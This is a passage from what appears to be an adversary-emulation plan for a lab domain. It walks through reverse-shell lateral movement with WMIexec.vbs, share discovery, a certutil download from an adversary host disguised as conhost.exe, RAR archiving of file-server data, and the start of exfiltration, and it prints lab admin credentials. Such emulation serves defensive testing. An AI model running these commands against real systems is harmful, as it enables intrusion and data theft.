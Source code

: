 * :arrow_right: Return to the RDP session on the Kali attack host `kraken (176.59.1.18)`

* Open a terminal window and start the SMB server:

  ```
  sudo mkdir /opt/menu_pass/digirevenge
  sudo impacket-smbserver digirevenge /opt/menu_pass/digirevenge -smb2support
  ```

* Using SodaMaster, download `WMIexec.vbs` to the bastion workstation
`kimeramon (10.20.20.11)`

  ```
  ./evalsC2client.py --set-task 2ef436e5400781c2f6611c31d4ef79b8 '{"id":"s", "payload":"w.vbs", "payloadPath":"C:/Users/kmimi/appdata/local/temp/"}'
  ```

* Initiate an RDP session to the bastion workstation `kimeramon (10.20.20.11)`
using the file server administrator `kmimi` credentials to authenticate.

  | Username | Password |
  | -------- | -------- |
  | DIGIREVENGE\kmimi | cHjc3p3hJHJYPUzT@ |

* Using the RDP session, open a Command Prompt
then execute `WMIexec.vbs` with the file server administrator `kmimi`
credentials targeting the file server `alphamon (10.20.10.23)`

  ```
  cscript.exe C:\Users\kmimi\appdata\local\temp\w.vbs /shell 10.20.10.23 DIGIREVENGE\kmimi cHjc3p3hJHJYPUzT@
  ```

* Using the reverse shell to the file server, execute PowerShell file discovery
commands

   ```
   powershell.exe "Get-SmbShare | foreach-object -process { if($_.Path) { dir $_.Path } }" -wait4145
   ```

* Using the reverse shell to the file server, execute `certutil.exe` to
download `WinRAR.exe` to the file server from the adversary server

  ```
  certutil.exe -urlcache -f http://ten-cent.us/files/giag1.crl "C:\Program Files\conhost.exe"
  ```

* Using the reverse shell to the file server, execute `WinRAR.exe` to compress
each file path containing files of interest

  ```
  cd "C:\Program Files"
  ```

  ```
  conhost.exe a -r C:\Windows\Temp\wmilog.rar F:\data
  ```

* Using the reverse shell to the file server, mount an adversary controlled
SMB share then execute the `RoboCopy` utility to exfiltrate the RAR to the
adversary controlled SMB share
